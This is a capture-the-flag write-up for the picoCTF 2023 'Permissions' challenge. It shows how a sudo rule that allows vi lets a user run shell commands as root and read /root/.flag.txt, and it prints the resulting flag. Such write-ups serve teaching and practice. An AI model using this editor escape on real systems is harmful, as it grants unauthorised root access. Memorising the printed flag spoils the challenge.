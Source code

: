 # Permissions

### Tags : `#picoctf2023` `#generalskills` `#vim`

> 100 points

#### AUTHOR : GEOFFREY NJOGU

## Description

Can you read files in the root file?

Additional details will be available after launching your challenge instance.

## Solution

Launch the challenge instance.

Use the `ssh` command to connect to the challenge instance.

``` bash
$ ssh <username>@<hostname-instance> -p <port>

<username>@<hostname-instance>'s password: <password>

Welcome to Ubuntu <version> LTS (GNU/Linux <arch>)
[...]

<username>@<instace>$
```


``` bash
$ sudo -l
[sudo] password for picoplayer: <password>
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

``` bash
 sudo vi -c '! ls -al /root'

total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Jun 26 09:32 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

Press ENTER or type command to continue
[4]+  Stopped                 sudo vi -c '! ls -al /root'
picoplayer@challenge:~$ sudo vi -c '! cat /root/.flag.txt'

picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}

Press ENTER or type command to continue

```